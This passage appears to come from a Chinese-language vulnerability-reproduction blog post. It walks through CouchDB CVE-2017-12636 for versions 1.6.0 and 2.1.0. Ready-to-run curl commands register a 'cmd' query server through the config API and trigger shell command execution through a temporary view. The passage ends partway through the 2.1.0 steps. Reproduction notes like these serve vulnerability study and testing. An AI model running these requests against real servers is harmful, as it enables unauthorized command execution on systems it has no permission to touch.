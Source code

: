 登陆成功 

![5cfe364f25d8a64339](/assets/img/posts/5cfe364f25d8a64339.png)

## Couchdb 任意命令执行漏洞（CVE-2017-12636）

### 漏洞复现：

#### Version 1.6.0

在 CVE-2017-12635 的基础上进行任意命令执行操作

```textile
curl -X PUT 'http://co0ontty:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'

curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest'
curl -X PUT 'http://co0ontty:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://co0ontty:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中 co0ontty:password 为用户名和密码

第一个请求是添加一个名字为`cmd`的`query_servers`，其中`id >/tmp/success`为后面要执行的命令

第二、三个请求是添加一个 Database 和 Document，这里添加了后面才能查询。

第四个请求就是在这个 Database 里进行查询，因为我将 language 设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### Version 2.1.0

Couchdb 2.x 引入了集群，所以修改配置的 API 需要增加 node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

第一个请求修改为：

```textile
curl -X PUT http://co0ontty:password@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

第二、三个请求不变：
